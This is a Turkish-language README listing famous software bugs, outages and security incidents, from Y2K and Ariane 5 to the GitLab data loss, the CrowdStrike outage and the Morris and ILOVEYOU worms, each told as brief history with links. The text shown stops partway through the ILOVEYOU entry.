

# famous-bugs :bug: :honeybee: :ant:

[](https://github.com/umutphp/famous-bugs/actions/workflows/markdown-linter-action.yml) [](./.github/CODE_OF_CONDUCT.md)

Geliştiricilerin faydalı bulabileceği derlenmiş problemler, hatalar ve sistem çöküşlerinin listesi.

[Çeviriler](#%C3%A7eviriler): [🇹🇷](https://github.com/umutphp/famous-bugs/blob/master/README-tr.md)

---

<!-- START doctoc generated TOC please keep comment here to allow auto update -->
<!-- DON'T EDIT THIS SECTION, INSTEAD RE-RUN doctoc TO UPDATE -->

- [Giriş](#giri%C5%9F)
- [Problemler](#problemler)
  - [Saldıran Sürü Problemi](#sald%C4%B1ran-s%C3%BCr%C3%BC-problemi)
  - [N+1 Sorgu Problemi](#n1-sorgu-problemi)
  - [Kırılma Noktası Problemi](#k%C4%B1r%C4%B1lma-noktas%C4%B1-problemi)
  - [2000 Yılı Problemi](#2000-y%C4%B1l%C4%B1-problemi)
- [Çöküşler ve Saldırılar (Hack)](#%C3%87%C3%B6k%C3%BC%C5%9Fler-ve-sald%C4%B1r%C4%B1lar-hack)
  - [Gangnam Style YouTube'u Bozdu](#gangnam-style-youtubeu-bozdu)
  - [Wikimedia'da Bir Çiçek Resmine Gelen Gizemli Trafik](#wikimediada-bir-%C3%87i%C3%A7ek-resmine-gelen-gizemli-trafik)
  - [NPM Leftpad Olayı](#npm-leftpad-olay%C4%B1)
  - [Heathrow Terminal 5 Açılışı](#heathrow-terminal-5-a%C3%A7%C4%B1l%C4%B1%C5%9F%C4%B1)
  - [20 Temmuz 2016 Stack Overflow'un Çöküşü](#20-temmuz-2016-stack-overflowun-%C3%87%C3%B6k%C3%BC%C5%9F%C3%BC)
  - [Gitlab Veritabanın Silinmesi](#gitlab-veritaban%C4%B1n-silinmesi)
  - [PHP Git Commit Olayı](#php-git-commit-olay%C4%B1)
  - [4 Ekim Facebook Çöküşü](#4-ekim-facebook-%C3%87%C3%B6k%C3%BC%C5%9F%C3%BC)
  - [Cloudflare 2019 Çöküşü](#cloudflare-2019-%C3%87%C3%B6k%C3%BC%C5%9F%C3%BC)
  - [2017 Equifax Veri Sızıntısı](#2017-equifax-veri-s%C4%B1z%C4%B1nt%C4%B1s%C4%B1)
  - [Facebook-Cambridge Analytica Skandalı (2018)](#facebook-cambridge-analytica-skandal%C4%B1-2018)
  - [Büyük Mavi Ekran Günü](#b%C3%BCy%C3%BCk-mavi-ekran-g%C3%BCn%C3%BC)
- [Hatalar (Bug) ve Solucanlar](#hatalar-bug-ve-solucanlar)
  - [İlk Hata (Bug)](#%C4%B0lk-hata-bug)
  - [Ariane 5'in Patlaması](#ariane-5in-patlamas%C4%B1)
  - [NASA'nın Mars İklim Uydusunda Metrik Sistem Karmaşası](#nasan%C4%B1n-mars-%C4%B0klim-uydusunda-metrik-sistem-karma%C5%9Fas%C4%B1)
  - [Morris Solucanı](#morris-solucan%C4%B1)
  - [BT Yüzünden Ölmek](#bt-y%C3%BCz%C3%BCnden-%C3%96lmek)
  - [1990 AT&T Ağının Çöküşü](#1990-att-a%C4%9F%C4%B1n%C4%B1n-%C3%87%C3%B6k%C3%BC%C5%9F%C3%BC)
  - [ILOVEYOU Solucanı](#iloveyou-solucan%C4%B1)
  - [Zune Bug](#zune-bug)
  - [Unutulmuş Boşluk Karakteri](#unutulmu%C5%9F-bo%C5%9Fluk-karakteri)
  - [Rachel True'nun iCloud'da Yaşadığı Problem](#rachel-truenun-icloudda-ya%C5%9Fad%C4%B1%C4%9F%C4%B1-problem)
  - [MySpace Solucan (Samy Solucanı)](#myspace-solucan-samy-solucan%C4%B1)
  - [Şifre Hash İşlemini Bozan "PHP Hack" Problemi](#%C5%9Eifre-hash-%C4%B0%C5%9Flemini-bozan-php-hack-problemi)
  - [Log4Shell - İnterneti Çökertebilecek Güvenlik Açığı](#log4shell---%C4%B0nterneti-%C3%87%C3%B6kertebilecek-g%C3%BCvenlik-a%C3%A7%C4%B1%C4%9F%C4%B1)
- [AI](#ai)
  - [Microsoft Tay Chatbot (2016)](#microsoft-tay-chatbot-2016)
- [Çeviriler](#%C3%87eviriler)
- [Katkıda Bulunmak İçin](#katk%C4%B1da-bulunmak-%C4%B0%C3%A7in)

<!-- END doctoc generated TOC please keep comment here to allow auto update -->

---

## Giriş

Yazılım geliştiricileri olarak işimizi basitçe hataları düzeltmek ve problemlere çözüm geliştirmek olarak tanımlayabiliriz. Bu liste, geliştiricilerin yararlı bulabileceği, derlenmiş problemler ve hatalar listesidir. Umarım daha büyük bir değer yaratmak için topluluk odaklı bir liste olur.

## Problemler

### Saldıran Sürü Problemi

> Bieber bir fotoğraf paylaşırdı ve pek çok takipçisi, Instagram'ın sunucularının yetişemeyeceği şekilde "Like" düğmesine basarlardı.
>
> [Wired.com](https://www.wired.com/2015/11/how-instagram-solved-its-justin-bieber-problem/)

Justin Bieber bir fotoğraf yayınladığında, pek çok "Belieber" fotoğrafı "Beğenir" ve bu da çok fazla sayıda bildirim, sorgu ve işleme neden olur. Instagram ekibinin karşılaştığı bu problem aslında [saldıran sürü probleminin](https://en.wikipedia.org/wiki/Thundering_herd_problem) çok güzel bir örneğidir. Bu problemin tekrar tekrar olmasını önlemek için birçok iyileştirme yaptılar ve yaptıklarını bu [makalede](https://instagram-engineering.com/instagration-pt-2-scaling-our-infrastructure-to-multiple-data-centers-5745cbad7834) anlattılar.

Ek kaynaklar:

- [Saldıran sürü problemi](https://www.wikiwand.com/en/Thundering_herd_problem)
- [Instagram Justin Bieber Problemini Nasıl Çözdü?](https://www.wired.com/2015/11/how-instagram-solved-its-justin-bieber-problem/)

### N+1 Sorgu Problemi

> ... öğe n tane ilişkili alt öğe içerdiğinde n+1 isteğe dönüşür.
>
> [InfoQ](https://www.infoq.com/articles/N-Plus-1/)

N+1 problemi, kod bir ana öğenin çocuklarını bir ilişkide yüklemeye çalıştığında ortaya çıkar (örneğin, none-to-many ilişkiler). Hemen hemen tüm ORM'ler, varsayılan olarak tembel yüklemeyi etkinleştirir. İlişkilerle beraber gelen verilerle bir kayıt listesi oluşturmak istediğinizi varsayın. Ana öğeleri getirmek için bir sorgu ve N tane ana öğenin alt kayıtları için N sorgu (ilişkiden verileri almak için her biri için bir sorgu) yapılır. Tahmin edebileceğiniz gibi, tek bir sorgu yerine N+1 sorguları yapmak, veritabanınızı sorgularla doldurur, bu da kaçınmamız gereken bir şeydir. Çok şükür ki, ORM'ler sorunu oldukça uzun süredir biliyorlar ve buna yerleşik çözümleri vardır. Çözüm aslında basit: geliştirme sırasında, ORM'ye önceden ek verilere ihtiyacınız olduğunu söylemelisiniz (önyükleme).

Ek kaynaklar:

- [N+1 Sorgu ve Bunlardan Nasıl Kaçınılır!](https://medium.com/@bretdoucette/n-1-queries-and-how-to-avoid-them-a12f02345be5)

### Kırılma Noktası Problemi

> Amazon, Reddit, Twitter and Twitch gibi büyük internet sitelerinin de dahil olduğu büyük bir çökme yaşandı ... Sorunun kaynağı bir CDN sağlayıcı olan Fastly'de yaşanan ve kendisinin de onayladığı global çöküş.
>
> [Engadged](https://www.engadget.com/a-huge-outage-is-affecting-large-swaths-of-the-internet-102354305.html)

Kırılma noktası (SPOF), arızalandığında tüm sistemin çalışmasını durduracak bir sistem parçasıdır. SPOF, yüksek erişilebilirlik veya güvenilirlik hedefi olan herhangi bir sistemde istenmeyen bir durumdur.Sistemin yazılım ve donanım bileşenlerinin yanı sıra bulut satıcısı da bir sistemin SPOF'u olabilir. 8 Haziran 2021'de yaşanan büyük internet çöküşü (CDN sağlayıcısı Fastly'nin çökmesi birçok büyük siteyi etkiledi) bu durum için mükemmel bir örnektir.

Ek kaynaklar:

- [SPOF: What Is a Single Point of Failure in IT?](https://techwithtech.com/single-point-of-failure/)

### 2000 Yılı Problemi

> ... 2000 yılını 1900 yılından ayırt edilemez hale getiriyor.

2000 Yılı Problemi (Y2K sorunu, Millennium hatası, Y2K hatası, Y2K hatası veya Y2K olarak da bilinir), 2000 yılından başlayan tarihler için takvim verilerinin biçimlendirilmesi ve depolanması nedeniyle oluşan sorunları ifade eder. Bu problem tüm dünyada yaşandı ve belgelendi. İşte bazı örnekler:

- 1 Ocak 1999'da Singapur'da taksi sayaçları çalışamaz hale geldi.
- 1 Ocak 2000'de Japonya, Onagawa'da, gece yarısından iki dakika sonra bir nükleer santralde alarm çaldı.
- 1 Mart 2000'de Amerika Birleşik Devletleri'nde Sahil Güvenlik'in mesaj işleme sistemi etkilendi.
- Norveç ve Finlandiya, bir kişinin doğduğu yüzyılı doğru bir şekilde belirtmek için ulusal kimlik numaralarını değiştirmek zorunda kaldı.

Ek kaynaklar:

- [Wikipedia'da 2000 Yılı Sorunu](https://en.wikipedia.org/wiki/Year_2000_problem)

## Çöküşler ve Saldırılar (Hack)

### Gangnam Style YouTube'u Bozdu

> Bir videonun izlenme sayısının 32 bitlik bir tam sayıdan büyük olacağını asla düşünmemiştik.
>
> Youtube

YouTube'un izlenme sayacı daha önce 32 bitlik bir tamsayı kullanıyordu, bu da sayabileceği maksimum olası görüntülemenin 2.147.483.647 olduğu anlamına geliyordu. Ve "[Gangnam Style](https://www.youtube.com/watch?v=9bZkp7q19f0)" 2 milyarlık görüntüleme sayısını aştı. YouTube'da, bir videonun alabileceği maksimum görüntüleme sayısı artık 9,223,372,036,854,775,808 olacak şekilde 64 bit tam sayıya yükseltildi.

### Wikimedia'da Bir Çiçek Resmine Gelen Gizemli Trafik

> Veri merkezlerimizden birine gelen tüm taleplerin% 20'si bu çiçek görüntüsü içindir. Kimse nedenini bilmiyor.
>
> [Chris Albon](https://twitter.com/chrisalbon/status/1358890731981611009)

3 Şubat 2021'de, Wikimedia teknoloji ekibi Hindistan'daki çeşitli ISS'lerden günde yaklaşık 90 milyon istek aldıklarını fark etti. İsteklerin tümü bir resim dosyası içindir (aşağıya bakın). Bunun bu resmi açılış ekranına koymuş bir mobil uygulama olabileceğini varsaydılar. Wikimedia uygulamayı açıklamadı, ancak bunun TikTok yerine kullanılabilecek bir uygulama olabileceğini düşünüldü. Çünkü, Hindistan o sırada TikTok'u tamamen yasaklama kararı almıştı ve bu da insanları alternatif uygulamalar kullanmaya yönlendirmişti. Bu kararla başlayan kelebek etkisi, bunu Wikimedia ve gizemli uygulamanın ekipleri için unutulmayacak bir anıya dönüştürdü.

[](https://en.wikipedia.org/wiki/Symphyotrichum_novi-belgii#/media/File:AsterNovi-belgii-flower-1mb.jpg)

Ek kaynaklar:

- [Phabricator Post](https://phabricator.wikimedia.org/T273741)

### NPM Leftpad Olayı

> Github'da yalnızca 10 yıldızlı left-pad adında 11 satırlık bir npm paketi yayından kaldırıldı... npm'deki en önemli paketlerden bazıları hata vermeye başladı.
>
> [Reddit](https://www.reddit.com/r/programming/comments/4bjss2/an_11_line_npm_package_called_leftpad_with_only/)

[Azer Koçulu](https://kodfabrik.com/) npm'de yazdığı basit bir kodu yayınladı ve bu çok popüler oldu. Pek çok proje bu paketi bağımlılık olarak kullandı. 11 Mart'ta, bir mesajlaşma uygulaması olan Kik için çalışan patent ve ticari marka temsilcisinden bir e-posta aldı. KiK ayrıca onun başka bir paketinin de adıydı. Kik paketini yeniden adlandırmasını istediler ancak Azer bunu kabul etmedi. Sonra ajans NPM'i bunu yapmaya zorladı ve bunda başarılı oldu. NPM'nin kararından sonra Azer Koçulu, left-pad dahil tüm paketlerini sildi. Daha sonra, dünyadaki birçok JavaScript programcısı "npm ERR! 404 'left-pad' is not in the npm registry" hata mesajını almaya başladı.

Ek kaynaklar:

- [Modüllerimi Az Önce Özgürleştirdim](https://web.archive.org/web/20210327093144/https://kodfabrik.com/journal/i-ve-just-liberated-my-modules)
- [kik, left-pad ve npm](https://blog.npmjs.org/post/141577284765/kik-left-pad-and-npm)

### Heathrow Terminal 5 Açılışı

> ... herhangi bir nedenle test edilmeyen basit ve gerçek senaryolar.

Heathrow Terminal 5 resmi olarak 14 Mart 2008'de açıldı. Açılış gününde planlandığı gibi çalışmadı, bu nedenle British Airways 34 uçuşu iptal etmek ve bagaj kontrolünü askıya almak zorunda kaldı.

Yeni bagaj taşıma sistemi yazılımı, bazı nedenlerden dolayı test edilmeyen gerçek senaryoları kaldıramadı. Örneğin, mal sahibi bir şeyi unuttuğu için bir bagaj manuel olarak geri taşındı. Bu durumda, program çöktü ve eşya kaydedilemedi. Bagaj işleme her zaman bu tür küçük ayrıntılarla kesintiye uğrardı.

Sonraki on gün boyunca, yaklaşık 42.000 ürün mal sahiplerine teslim edilmedi ve 500'den fazla uçuş iptal edildi. Diğer uçuşlara check-in geçici olarak yapılamaz hale geldi.

Ek kaynaklar:

- [Teknik aksaklıklar T5 açılışını vurdu](http://news.bbc.co.uk/2/hi/uk_news/7314816.stm)
- Wikipedia'da [Heathrow Terminal 5](https://en.wikipedia.org/wiki/Heathrow_Terminal_5#Opening)

### 20 Temmuz 2016 Stack Overflow'un Çöküşü

> Regular expression şuydu: ^[\s\u200c]+|[\s\u200c]+$ ...
>
> [Çöküş Raporu - 20 Temmuz 2016](https://stackstatus.net/post/147710624694/outage-postmortem-july-20-2016)

20 Temmuz 2016'da Stack Overflow, regular expression'lardan birinin Stack Overlfow web sunucularında yüksek CPU tüketmesine neden olan hatalı biçimlendirilmiş bir gönderi nedeniyle 34 dakikalık bir kesinti yaşadı. Bu çok tipik bir regular expression hizmet reddi (ReDoS) saldırısıydı, ancak hatalı biçimlendirilmiş gönderinin bir süre ana sayfada görüntülenmesi nedeniyle gerçekleşti. Dolayısıyla, regular expression kontrolleri (eşleşme veya uyumsuzluk) işlemci kaynaklarını tamamen tüketi. Ana sayfa, yük dengeleyiciler tarafından healthcheck için kullanıldığından, sitenin tamamı kullanılamaz hale geldi.

Ek kaynaklar:

- [Regular Expression Hizmet Reddi (ReDoS) cheat-sheet sayfası](https://levelup.gitconnected.com/the-regular-expression-denial-of-service-redos-cheat-sheet-a78d0ed7d865)
- [Çöküş Raporu - 20 Temmuz 2016](https://stackstatus.net/post/147710624694/outage-postmortem-july-20-2016)

### Gitlab Veritabanın Silinmesi

> ...yanlışlıkla canlıdaki veritabanını sildi. Veritabanı yedeklerinin olduğu klasörün boş olması durumu daha da kötüleştirdi. Bir ayar hatasından dolayı bir süredir yedekleme de çalışmıyormuş...
>
> [Dzone](https://dzone.com/articles/the-biggest-software-failures-in-recent-years)

31 Ocak 2017'de Gitlab yedeklemenin ne kadar önemli olduğunu gösterecek bir sorun ile karşılaştı. Veritabanı sunucuları mimarisinde çok temel bir değişikliğe gitme kararı aldılar. Bunu uygularken yanlışlıkla canlıdaki veriatabanı silindi. Bir süredir yedekleme işleminin bir ayar hatası yüzünden çalışmadığı ve ellerinde güncel bir yedeğin olmadığını farkedince durum iyice kötüleşti. Büyük ihtimalle panik için ellerinden geleni yapmaya çalıştırlar ama sonuç yaklaşık 300 GB'lık müşteri verisinin kaybı ve 18 saatlik bir kesinti oldu. Gitlab konuyla ilgili oldukça dürüst ve detaylı bir [rapor](https://about.gitlab.com/blog/2017/02/10/postmortem-of-database-outage-of-january-31/) yayınladı. Olayın nasıl olduğunu ve nasıl düzeltildiğini anlatan [bu vidyoyu](https://www.youtube.com/watch?v=tLdRBsuvVKc) da izleyebilirsiniz.

### PHP Git Commit Olayı

> Selamlar,
>
> Dün (2021-03-28) php-src reposuna biri benim tarafımdan biri de Rasmus Lerdof tarafından yapılmış gibi zararlı iki adet commit atıldı.
> Bunun nasıl olduğunu tam olarak bilmiyoruz...
>
> [Nikita Popov](https://news-web.php.net/php.internals/113838)

28 Mart 2021'de Nikita Popoz (proje yürütücülerinden biri) php-src reposuna kendi adına ve Rasmus Lerdof (PHP'nin yaratıcısı) adına yapılmış gibi iki zararlı commit atıldığını duyurdu. Buna sebep olan şeyin ne olduğu açıkça duyurulmadı ama Nikita bütün şüphelerin kendilerini hesaplarla ilgili bir sızıntının değil de kendilerinin yönettiği git sunucusunda oluşan bir açığa yönlendirdiğini belirtti. Bu olay saldırganların üretim bandında kullanılan araçlar, açık kaynak proje, kütüphane ya da komponent üzerinden yaptıkları "supply-chain attack" saldırına güzel bir örnektir.

Ek kaynaklar:

- [Git commit işleyişinde değişiklikler](https://news-web.php.net/php.internals/113838)
- [PHP hadisesi kullanılan araçların doğrulanması gerekliğini gösterdi](https://www.csoonline.com/article/3613593/php-backdoor-attempt-shows-need-for-better-code-authenticity-verification.html)

### 4 Ekim Facebook Çöküşü

> ... temel nedeni yaptığımız hatalı bir yapılandırma değişikliğiydi.
>
> [Facebook](https://engineering.fb.com/2021/10/04/networking-traffic/outage/)

4 Ekim 2021'de saat 15:39 UTC'te başlayarak Facebook, Messenger, Instagram, WhatsApp, Mapillary ve Oculus yedi saatten fazla bir süre dünya genelinde kullanılamayacak hale geldi. Ayrıca, web sitelere erişim için kullanılan "Facebook ile Giriş Yap" özelliği de kullanılamaz hale geldi. Facebook ekibi temel nedenin veri merkezleri arasındaki ağ trafiğini koordine eden ağ yönlendiricilerindeki yapılan bir yapılandırma değişikliğinin olduğunu açıkladı.

- [Facebook Potmortem](https://engineering.fb.com/2021/10/04/networking-traffic/outage/)
- [2021 Facebook Outage](https://en.wikipedia.org/wiki/2021_Facebook_outage)

### Cloudflare 2019 Çöküşü

> ... WAF Yönetilen Kurallarımızda yeni bir kural dağıteklediktık ve bu kural HTTP/HTTPS trafiğini yöneten işlemci kaynağının tükenmesine neden oldu ...
>
> [Postmortem](https://blog.cloudflare.com/details-of-the-cloudflare-outage-on-july-2-2019/)

Cloudflare'in 2 Temmuz 2019 tarihli çöküşü, şirketin Web Uygulama Güvenlik Duvarı (WAF) yazılımında rutin bir canlıya çıkış sırasında yapılan yapılandırma hatası nedeniyle tetiklendi. Bu hata, Cloudflare ağının çökmesine ve Cloudflare'in altyapısına bağımlı birçok web sitesi ve çevrimiçi hizmet için yaygın hizmet kesintilerine yol açtı. Arıza, popüler web siteleri, e-ticaret platformları, sosyal medya ağları ve hatta hükümet hizmetleri de dahil olmak üzere geniş bir çevrimiçi platform yelpazesini etkiledi.

- [Cloudflare Postmortem](https://blog.cloudflare.com/details-of-the-cloudflare-outage-on-july-2-2019/)
- [Major outage was a lot more than “a regular expression went bad”](https://hub.packtpub.com/cloudflare-rca-major-outage-was-a-lot-more-than-a-regular-expression-went-bad/)

### 2017 Equifax Veri Sızıntısı

> Eylül 2017'de Equifax, yaklaşık 147 milyon insanın kişisel bilgilerini etkileyen bir veri ihlali yaşadığını duyurdu.
>
> [EQUIFAX DATA BREACH SETTLEMENT](https://www.equifaxbreachsettlement.com/)

2017 yılında, en büyük tüketici kredi raporlama kuruluşlarından biri olan Equifax, milyonlarca insanın kişisel bilgilerini etkileyen büyük bir veri sızıntısı yaşadı. Bu ihlal, Equifax'ın web sitesi yazılımında bir zafiyet sonucunda meydana geldi ve bu zafiyet, hacker'ların şirketin sistemlerine yetkisiz erişim sağlamasına ve hassas verileri ele geçirmesine sebep oldu.

- [EQUIFAX DATA BREACH SETTLEMENT](https://www.equifaxbreachsettlement.com/)
- [2017 Equifax data breach](https://en.wikipedia.org/wiki/2017_Equifax_data_breach)

### Facebook-Cambridge Analytica Skandalı (2018)

> Bu skandal, kişisel verilerin nasıl toplandığı, paylaşıldığı ve siyasi hedefleme için kullanıldığı konusunda küresel endişeleri yeniden gündeme getirdi.
>
> [Wikipedia](https://tr.wikipedia.org/wiki/Facebook%E2%80%93Cambridge_Analytica_veri_skandal%C4%B1)

2018 yılında Facebook, Cambridge Analytica ile ilgili büyük bir gizlilik skandalının merkezinde yer aldı. Şirket, bir üçüncü taraf uygulama aracılığıyla milyonlarca Facebook kullanıcısının verisini topladı ve bu verileri seçmen profilleri oluşturmak için kullandı. Bu olay, rıza, veri minimizasyonu ve sosyal platformların sorumlulukları hakkında daha geniş bir tartışmaya yol açtı; soruşturmalar, düzenleyici incelemeler ve toplumsal tepkilerle sonuçlandı.

Ek kaynaklar:

- [Facebook–Cambridge Analytica veri skandalı](https://tr.wikipedia.org/wiki/Facebook%E2%80%93Cambridge_Analytica_veri_skandal%C4%B1)
- [Facebook ile FTC arasında yapılan anlaşma](https://www.ftc.gov/news-events/news/press-releases/2019/07/ftc-imposes-5-billion-penalty-sweeping-new-privacy-restrictions-facebook)

### Büyük Mavi Ekran Günü

> ... bankacılık, havayolları, tedarikçiler, medya şirketleri ve tren yolları ağları gibi bir çok sektördeki Microsoft Windows kullanan bilgisayarlar etkilendi. Em büyük zararın turizm sektöründe olduğu düşünülüyor...
>
> [CrowdStrike’s chief executive, George Kurtz](https://techcrunch.com/2024/07/19/faulty-crowdstrike-update-causes-major-global-it-outage-taking-out-banks-airlines-and-businesses-globally/)

19 Temmuz 2024'53 dünyanın dört bir tarafından şirketler IT problemi yaşadaıklarını belirtmeye başladılar ve bu tüm zamanların eş zamanlı en yaygın IT çöküşlerinden biriydi. Bu durumun  bir siber güvenlik şirketi olan CrowdStrike tarafından yapılan bir güncellemeden kaynaklandığı ortaya çıktı. Bu durum bankacılık, havayolları, tedarikçiler, medya şirketleri ve tren yolları ağları gibi bir çok sektördeki Microsoft Windows kullanan bilgisayarlar etkiledi. Em büyük zararın turizm sektöründe olduğu düşünülüyor.

- [Statement on Falcon Content Update for Windows Hosts](https://www.crowdstrike.com/blog/statement-on-falcon-content-update-for-windows-hosts/)
- [Our Statement on Today’s Outage](https://www.crowdstrike.com/blog/our-statement-on-todays-outage/)

## Hatalar (Bug) ve Solucanlar

### İlk Hata (Bug)

> Bulunan ilk gerçek hata vakası.
>
> [Grace Murray Hopper](https://en.wikipedia.org/wiki/Grace_Hopper)

9 Eylül 1947'de [Mark II](https://en.wikipedia.org/wiki/Harvard_Mark_II) (Harvard Üniversitesi'nde) bozuldu. Mühendisler nedeni araştırdılar ve teşhis ettiler. Makineye bir güve (bug) girmiş ve Panel F'nin 70 numaralı rölesini kısa devre yapmıştı. Hatayı sayfaya "İlk gerçek hata (bug) bulundu" notuyla eklediler. Bug terimi bu şekilde doğdu.



Bu sayfa hala Washington'daki [Smithsonian Enstitüsü Ulusal Amerikan Tarihi Müzesi'nde](https://americanhistory.si.edu/collections/search/object/nmah_334663) tutuluyor.

Ek kaynaklar:

- [Harvard Mark II](https://en.wikipedia.org/wiki/Harvard_Mark_II)
- [Grace Hopper](https://en.wikipedia.org/wiki/Grace_Hopper)

### Ariane 5'in Patlaması

> ... 64 bitlik bir real sayı ... 16 bitlik işaretli bir tam sayıya dönüştürüldü.

4 Haziran 1996'da, Avrupa Uzay Ajansı tarafından fırlatılan Ariane 5 roketi, havalanmasından sadece kırk saniye sonra patladı. Roket, 7 milyar dolara mal olan on yıllık bir geliştirme sürecinin ardından ilk yolculuğuna çıkmıştı. İmha edilen roket ve kargosunun değeri 500 milyon dolardı. Kaza, Avrupa'nın uzay programı için önemli bir engeldi.

Roketin platforma göre yatay hızı, 16 bitlik işaretli bir tamsayı içinde saklanabilen en büyük tam sayı olan 32.767'den daha büyüktü ve bu nedenle dönüştürme başarısız oldu.

Ek kaynaklar:

- [Rapor: Yazılım Tasarım Hataları Ariane 5 Patlamasına Neden Oldu](https://apnews.com/article/1d85f290e31cad8532636fcb576f4788)

### NASA'nın Mars İklim Uydusunda Metrik Sistem Karmaşası

Mars İklim Uydusu, 11 Aralık 1998'de Mars iklimini incelemek için NASA tarafından fırlatılan bir robotik uzay misyonuydu. Navigasyon ekibi, hesaplamalarında metrik sistemi kullanırken, uzay aracını tasarlayan ve inşa eden ekip ivme verilerini İngiliz metrik sisteminde sağladı. Newton saniye^2 adı verilen bir kuvvet için ivme okumaları pound-saniye^2 cinsinden ölçülmüştü. Bir anlamda uzay aracı çeviride kayboldu.

Ek kaynaklar:

- [Mars_Climate_Orbiter # Cause_of_failure](https://en.wikipedia.org/wiki/Mars_Climate_Orbiter#Cause_of_failure)

### Morris Solucanı

> Bu bir tasarım kusuruydu ...

Yaratıcısı [Robert Tappan Morris'e göre](https://en.wikipedia.org/wiki/Robert_Tappan_Morris), zarar vermek için değil, güvenlik açıklarını vurgulamak için yazılmıştı. [Sendmail](https://en.wikipedia.org/wiki/Sendmail), [finger](https://en.wikipedia.org/wiki/Finger_protocol), [rsh/rexec](https://en.wikipedia.org/wiki/Berkeley_r-commands) ve zayıf şifreler yüzünden oluşan güvenlik açıklarından yararlanmak için programlanmıştır. Solucanı yaratırken Robert sistem yöneticilerinin solucanı yenmeye çalışmasını önlemek için kendini %14 oranında kopyalayacak ve bilgisayara yanlış pozitif geri bildirim yapacak şekilde programladı. Bu bir tasarım kusuruydu ve etkilenen bilgisayarda kopyalanma bombardımanı ve çökmeler yarattı.

Morris Worm, İnternet üzerinden dağıtılan ilk bilgisayar solucanlarından biri olarak kabul edildi ve ana akım medyanın dikkatini çeken ilk bilgisayar solucanı oldu. Morris Solucanının kaynak kodunu içeren bir disket [Bilgisayar Tarihi Müzesi'nde](https://computerhistory.org/) tutulmaktadır.

Ek kaynaklar:

- [Morris Solucanı](https://en.wikipedia.org/wiki/Morris_worm)
- [Robert Tappan Morris](https://en.wikipedia.org/wiki/Robert_Tappan_Morris)

### BT Yüzünden Ölmek

> Hastaların "eve taburcu edildiğini" ya da "öldüğünü" belirtmek için bir rakam kullanıldı.
>
> [Apnews](https://apnews.com/article/6870c9bd785360007b5981f0d5443b19#:~:text=A%20computer%20error%20at%20Saint,of%20other%20patients%20as%20deceased.&text=The%20glitch%20happened%20during%20a,told%20The%20Grand%20Rapids%20Press.)

2002 yılında, Grand Rapids'deki St. Mary's Mercy Tıp Merkezi hatalı bir şekilde 8500 hastanın hasta yönetim yazılımındaki bir aksaklık nedeniyle öldüğünü bildirdi. Yalancı ölüm raporları sadece hastalara değil, sigorta şirketlerine ve sosyal güvenlik bürolarına da gönderildi. Sorunun nasıl giderildiğine dair net bir şekilde belirtildi ancak yönetim yazılımı yine de değiştirildi.

Ek kaynaklar:

- [Hastane "Ölü" Hastalarını Canlandırıyor](https://www.baselinemag.com/c/a/Projects-Networks-and-Storage/Hospital-Revives-Its-QTEDeadQTE-Patients)

### 1990 AT&T Ağının Çöküşü

> Sadece bir satır koddaki hata, AT&T'nin ağını birkaç saatliğine kapattı.
>
> [MakeUseOf](https://www.makeuseof.com/tag/worst-programming-mistakes-in-history/)

Bu çöküşten önce, AT&T'nin uzun mesafe ağı güvenilir ve güçlü olarak kabul edilirdi. Ülkenin uzun mesafe trafiğinin %70'inden fazlasını taşıyor ve 115 milyondan fazla telefon görüşmesi yapıyordu. Bu çöküş, AT&T müşterilerinin yaptığı 75 milyon cevapsız arama ve 200.000 havayolu ve otel rezervasyon iptali nedeniyle telefon ağına güvenen işletmelerin 60 milyon dolarlık kaybıyla sonuçlandı.

Hata, güncellenmiş kurtarma yazılımındaki bir switch ifadesindeki olan if ifadesindeki bir break komutu nedeniyle oluştu. Bütün switch'ler, komşu switch'lerin güvenilir olup olmadığını belirlemeye çalışırken aynı anda hepsi erişilemez hale geldi.

```bash
1  while (ring receive buffer not empty  and side buffer not empty) DO
2    Initialize pointer to first message in side buffer or ring receive buffer
3    get copy of buffer
4    switch (message)
5       case (incoming_message):
6             if (sending switch is out of service) DO
7                 if (ring write buffer is empty) DO
8                     send "in service" to status map
9                 else
10                    break
11            END IF
12            process incoming message, set up pointers to optional parameters
13            break
14      END SWITCH
15   do optional parameter work
```

Ek kaynaklar:

- [1990 AT&amp;T Uzun Mesafe Ağı Çöküşü](https://jonhtaylor.com/the-1990-att-long-distance-network-collapse/)
- [Tüm Devreler Şu Anda Meşgul: 1990 AT&amp;T Uzun Mesafe Ağının Çöküşü](https://users.csc.calpoly.edu/~jdalbey/SWE/Papers/att_collapse.html)

### ILOVEYOU Solucanı

> Olaylar, Pet Shop Boys'un İngiltere'nin 2002'deki ilk on albümü Release'deki "E-mail" şarkısına ilham verdi.
>
> [Wikipedia](https://en.wikipedia.org/wiki/ILOVEYOU#Impact)

ILOVEYOU solucanı, Onel de Guzman (Manila Filipinler'de bir üniversite öğrencisi) tarafından yaratıldı ve 4 Mayıs 2000'den sonra on milyondan fazla Windows kişisel bilgisayarına bulaştı. Amacı, hizmet için ödeme yapmadan diğer kullanıcıların internet hesaplarını kullanabilmek için şifrelerini çalmaktı. Windows 95'te e-posta eklentilerinde kod çalıştıran bir hata olduğu için solucanı yaratmanın çok kolay olduğunu belirtti.

Başlangıçta, solucanı yalnızca Manila'da çalışacak şekilde tasarladı. Meraktan, bu coğrafi kısıtlamayı kaldırdı ve solucanın dünya çapında yayılmasına izin verdi. Elbette bunun dünya çapında yayılmasını beklemiyordu. Solucan önce Hong Kong'a, sonra Avrupa'ya ve son olarak da Amerika Birleşik Devletleri'ne bulaştı. On gün içinde, elli milyondan fazla bulaşma (dünyadaki internete bağlı bilgisayarların% 10'u) rapor edildi. Pentagon, CIA, Britanya Parlamentosu ve bir çok büyük şirket kendilerini korumak için posta sistemlerini tamamen kapatmaya karar verdi.

Solucan, kullanıcılara kodu değiştirmenin bir yolunu sağladı ve her biri farklı türde zararlar veren yirmi beşten fazla ILOVEYOU varyasyonunun internete yayılmasına sebep oldu.

